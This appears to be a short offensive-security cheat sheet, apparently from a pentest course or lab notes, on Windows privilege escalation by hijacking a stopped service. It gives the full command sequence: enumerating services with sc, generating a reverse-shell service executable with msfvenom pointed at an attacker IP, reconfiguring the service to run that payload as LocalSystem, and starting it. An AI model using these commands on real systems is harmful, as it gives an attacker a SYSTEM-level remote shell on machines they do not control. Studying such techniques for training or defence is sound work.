 You can get a list of available services using the following command:

	sc query state=all

Find a service that is NOT running to modify.

Create a new reverse shell with msfvenom:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[ATTACKER IP] LPORT=[PORT] -f exe-service -o rev-svc.exe
```

To reconfigure [service]'s' parameters, we can use the following command:

```
sc config [service] binPath= "C:\Windows\rev-svc.exe" start= auto obj= "LocalSystem"
```

Start service

	sc start [service]